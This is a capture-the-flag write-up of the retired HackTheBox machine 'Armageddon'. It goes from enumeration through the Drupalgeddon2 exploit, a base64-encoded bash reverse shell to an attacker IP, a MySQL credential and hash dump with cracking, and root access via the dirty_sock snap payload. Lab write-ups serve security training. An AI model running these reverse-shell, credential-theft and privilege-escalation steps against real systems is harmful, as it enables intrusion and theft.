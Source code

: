 ```yaml
---
layout: post
title: "HackTheBox - Armageddon"
subtitle: "AKA Drupalgeddon"
date: 2021-06-05 23:45:13 -0400
background: '/img/blue_wave.jpg'
---
```


# Introduction

This is a write-up for a retired "easy" HackTheBox machine - Armageddon.

# Enumeration

Standard nmap scan reveals two open ports : 

```bash
sudo nmap -sV -sC -oA armageddon 10.10.10.233

```

![Drupal 7 revealed](/img/posts/htb-armageddon/nmap-scan-drupal.png)

Note the highlighted text - Drupal 7. This is an outdated version, though it does still receive security updates from time to time. Lets try to enumerate the exact version further.

Let's check /CHANGELOG.txt. This is file is shown in nmap scan as it's located in /robots.txt entry. 

![Drupal 7 exact verison](/img/posts/htb-armageddon/drupal7-exact-version.png)

# Exploitation


It seems this CMS hasn't been updated in some time. After checking and trying default credentials I went for the simple thing and just used Google Search.

![Drupal 7 exploit](/img/posts/htb-armageddon/drupa7-google-search.png)

Lots of hits and the name of the exploit suggest this might be it. HackTheBox often names their boxes similar to the exploit used. In this case "Armageddon" - "Drupalgeddon".

Now I understand there is a perfectly fine Metasploit module **exploit/unix/webapp/drupal_drupalgeddon2** that can exploit the server, however, I find it too dull. So I managed to find another exploit. The only thing to do is to clone it with git :

```bash
git clone https://github.com/dreadlocked/Drupalgeddon2
```

And run it :

![Gem missing for the Drupalgeddon exploit](/img/posts/htb-armageddon/exploit-gem-missing.png)

Snap! There is a ruby gem missing - **highline** . Let's install it.

![Installing missing ruby gem](/img/posts/htb-armageddon/exploit-installing-gem.png)

Since I'm running ParrotOS I needed to run the *gem* command as root. Now that this is done let's run the exploit.

![Working exploit](/img/posts/htb-armageddon/exploit-works.png)

It works! We are user *apache* in this pseudo-shell. Let's try to get the proper one. 

My first thought was to check for netcat on the system and if netcat is not present to run a simple **sh** reverse shell.

![No Netcat and bad character](/img/posts/htb-armageddon/exploit-no-nc-bad-char.png)

However, there is no netcat present (at least in my path) and the ">" character is a bad character for our flimsy shell. So when this happens my go-to tool is the base64. Let's encode our command and send it so it can be decoded on the other side and properly executed.

```bash
echo -n "sh -i >& /dev/tcp/10.10.14.70/80 0>&1" | base64
c2ggLWkgPiYgL2Rldi90Y3AvMTAuMTAuMTQuNzAvODAgMD4mMQ==
```

Set up a netcat listener:

```bash
sudo nc -nlvp 80
```

Now on the target :

```bash
echo -n "c2ggLWkgPiYgL2Rldi90Y3AvMTAuMTAuMTQuNzAvODAgMD4mMQ==" | base64 -d | bash
```

This gives a shell back :

![Shell returned as apache](/img/posts/htb-armageddon/apache-shell.png)


# Elevation To User

Since getting a proper tty on this box was not successful, I checked the Drupal default configuration location and found that its in /sites/default :


![Drupal default configuration](/img/posts/htb-armageddon/drupal-filesystem.png)

After going inside of that directory I saw *settings.php* :

```bash
sh-4.2$ pwd
pwd
/var/www/html/sites/default
sh-4.2$ ls
ls
default.settings.php
files
settings.php
sh-4.2$ 
```

After checking out settings.php I noticed the mysql credentials -
**drupaluser:CQHEy@9M*m23gBVj** :

![Mysql credentials](/img/posts/htb-armageddon/drupal-mysql.png)

Entering MySQL database without a proper shell is not going to be possible for us, so I just queried the database line by line :

```bash
mysql -u drupaluser -pCQHEy@9M*m23gBVj -D drupal -e 'show tables;'
```

Note that typing **-p CQHEy@9M*m23gBVj** did not work for me, so I had to connect the parameter and the password value.
After checking out the tables I saw the *users* table. So I queried it :

![Mysql user table](/img/posts/htb-armageddon/mysql-users-tables.png)

Yes, it's a mess. I could specify to query for columns *name* and *pass* to make it more pretty with :

```bash
mysql -u drupaluser -pCQHEy@9M*m23gBVj -D drupal -e 'select name,pass from users;'
```

So we have the username brucetherealadmin (which was an entry in /etc/passwd), and an MD5 hash :

```
$S$DgL2gjv6ZtxBo6CdqZEyJuBphBmrCqIV6W97.oOsUf1xAhaadURt
```

Time to crack it with John :

![Cracking the hash with John](/img/posts/htb-armageddon/crackingthehash.png)

So the credentials are :

```
brucetherealadmin:booboo
```

Now to ssh :

![SSH into user *brucetherealadmin*](/img/posts/htb-armageddon/brucessh.png)

And we can see that the user flag has 33 characters :

![User flag](/img/posts/htb-armageddon/userflag.png)


# Privilege Escalation


Since nothing else was in our home folder I just decided to go the the easy wins and just did *sudo -l* so I can check if we can run anything with root privileges:

![Can run snap as root](/img/posts/htb-armageddon/sudo-l.png)

So we can install any snap package as root. I ran a simple google search :

![Running a google search](/img/posts/htb-armageddon/snap-google-search.png)

This article was the first hit and it explains that a popular exploit dirty_sock version 2 creates a snap package that adds a new user.

![Checking the article](/img/posts/htb-armageddon/snap-dirty-sock.png)

While the [dirty-sockv2.py](https://github.com/initstring/dirty_sock/blob/master/dirty_sockv2.py) from Github doesn't work - it does contain a python base64 encoded string which we can use to install a snap package manually. Let's try it :

```bash
python2 -c 'print "aHNxcwcAAA...." + "A"*4256 + "=="' | base64 -d
```

![Creating the snap](/img/posts/htb-armageddon/creating-the-snap.png)

After this we can switch to user *dirty_sock* :

![User dirty_sock](/img/posts/htb-armageddon/dirty-sock-user.png)

Now all we need to do is run *sudo -i* :

![Sudo -i for the root shell](/img/posts/htb-armageddon/root.png)

Rooted.



# Conclusion & Tips

This box demonstrated a typical low-hanging fruit grab - eg. that looks like the obvious thing it is the right way in.

Privilege escalation was quite interesting since it involves using an already made piece of code of a popular exploit *dirty_sock* and running the snap install command in **--devmode** - which enables an installation of a snap package without enforcing security policies. 

# Resources

[Drupal 7 Drupalgeddon exploit](https://github.com/dreadlocked/Drupalgeddon2/blob/master/drupalgeddon2.rb)

[Dirty Sock Exploit explained](https://shenaniganslabs.io/2019/02/13/Dirty-Sock.html)

[Dirty Sock Version 2 - Snapd](https://github.com/initstring/dirty_sock/blob/master/dirty_sockv2.py)